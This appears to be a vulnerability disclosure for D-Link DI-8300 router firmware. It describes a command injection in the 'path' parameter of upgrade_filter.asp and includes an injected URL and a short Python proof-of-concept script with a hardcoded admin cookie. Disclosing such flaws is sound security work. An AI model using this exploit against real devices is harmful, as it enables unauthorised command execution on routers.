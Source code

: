 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.
![[Pasted image 20240806095532.png]]
```
http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/002.txt`
```
![[Pasted image 20240806100619.png]]
Check the firmware shell. The command is successfully executed
![[Pasted image 20240806100840.png]]
# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`ps%20%3E%20/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
